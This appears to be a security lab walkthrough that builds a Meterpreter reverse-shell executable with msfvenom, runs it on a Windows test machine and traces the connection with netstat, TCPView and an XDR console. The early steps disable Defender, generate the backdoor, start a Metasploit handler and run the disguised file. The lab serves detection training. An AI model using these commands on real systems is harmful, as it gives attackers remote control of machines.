 # WarmUp

Create a malware with msfvenom, execute it on the victim machine and investigate with built-in win tools
Let's start it.

### Step 1

Open a Terminal as Administrator and select "Yes" at UAC prompt.
In the default PowerShell window, run the following command to disable Defender. 
Remember, our goal here is not bypass endpoint protection.

`Set-MpPreference -DisableRealtimeMonitoring $true`

Check if Defender is really turned off with (should be False):

`Get-MpComputerStatus | select RealTimeProtectionEnabled`

### Step 2

First, open an Terminal window as Administrator (CTRL + Click)
![](attachments/warmup_01.png)

Click Yes at the User the User Account Control Prompt.

Open a Kali Linux command prompt: 
![](attachments/warmup_02.png)

On the Kali console, check the IP address with:

```bash
ifconfig
```

![](attachments/warmup_03.png)

Mark the IP address of the Kali Linux machine eth0 interface. Your IP will be DIFFERENT!

Run the following command to create a simple backdoor.

`sudo su -`

`msfvenom --platform Windows -a x86 -p windows/meterpreter/reverse_tcp lhost=<YOUR ETH0 IP> lport=4444 -f exe -o /tmp/beliveme.exe`

`ls -l /tmp/beliveme.exe`

Copy the malware to the share folder accessible by the Victim machine
`cp /tmp/beliveme.exe /mnt/c/temp`

`ls -l /mnt/c/temp/`

Now, we need to start the handler on attacker (Linux) machine. We need one more shell to the Linux box. Select the down carrot from the upper tabs on the Winodws Terminal and select kali-linux

![](attachments/warmup_04.png)

Become a root:

`sudo su -`

Start the metasploit handler:

$`msfconsole -q`

msf6 > `use exploit/multi/handler`

msf6 exploit(multi/handler) > `set PAYLOAD windows/meterpreter/reverse_tcp`

msf6 exploit(multi/handler) > `set LHOST <YOUR ETH0 IP>` Your IP will be DIFFERENT

msf6 exploit(multi/handler) > `exploit`
![](attachments/warmup_05.png)

Open a Windows command prompt, by selecting the down carrot from the the Windows Terminal.
Once it's opened, run these commands:

`cd \temp`

`beliveme.exe`

You should have similar output:

![](attachments/warmup_06.png)

### step 3

Now that we have a backdoor connections, let's investigate it. We know what to look for..this time! :)
Have an administrator terminal session ready and execute the following command:
TIPP1: -b switch needs admin rights and it's very usefull. It shows the executable involved in creating each connections or listening port.

```cmd
netstat -naob
```
![](attachments/warmup_07.png)

TIPP2: You can check the help for netstat (or any other commands) cmd switches

```cmd
netstat /?
```
![](attachments/warmup_08.png)

==TIPP3:== List only the ESTABLISHED connections:
```cmd
netstat -naob | findstr "ESTABLISHED"
```

==TIPP4:== List only the LISTENING connections:
```cmd
netstat -naob | findstr "LISTENING"
```

If you have RDP (or similar) access you can use TCPView application from the SysInternals package

![](attachments/warmup_09.png)

If you look closer, you can find the connection (because we know what to look for) made by our supper evil "beliveme.exe" malware.

![](attachments/warmup_10.png)

### step 4

### step 5
You can investigate it with a commercial tools as well (e.g. Cisco XDR)
The XDR sees immediately the event and creates an incident

![](attachments/warmup_30c.png)

Clicking on the incident, we get more details. Like, Vitim endpoint, Local IP, the IP the malware connected to, the file name and the hash of the malware

![](attachments/warmup_31c.png)


The malicious file was automatically sent for dynamic analysis (it's configurable)

![](attachments/warmup_32c.png)


Searching for the hash of the file (beliveme.exe) gives us more tech details. It show immediately , how many endpoints are affected in our organization.
Additionally, the behavior indicators describe, why the file was marked as malicious. 
- Metasploit Payload Detected 
- Artifact flagged as known trojan by Antivirus
- Possible backdoor behavior Detected
- Process uses private IP range for network traffic

![](attachments/warmup_33c.png)

As an analyst/investigator i can:
- Take a forensics snapshot of the memory
- Isolate the endpoint (or snapshot and isolate)
- Move to the Triage group (more logs, strict rules etc.)

![](attachments/warmup_34c.png)

Every stage of the Incident response can logged by the XDR:
- Identification with review, affected hosts, conformation
- Containment with Overview, assets, IPs, domains, URLs, hashes etc
- Eradication with vulnerability remediation, removing malicious content and system restore
- Recovery

![](attachments/warmup_35c.png)

It make sens to collect the netflow (NVZ flow) data at the process level. Not just the SRC/DST IPs and ports are visible, but muc more.
- which process initiated the flow?
- what is the process ID?
- what is the path of the process?
- what is the PID of the parent process?
- what is the parent process name?
- what is the hash of the process?
- How is logged in to the endpoint?

![](attachments/warmup_36c.png)

### step 5
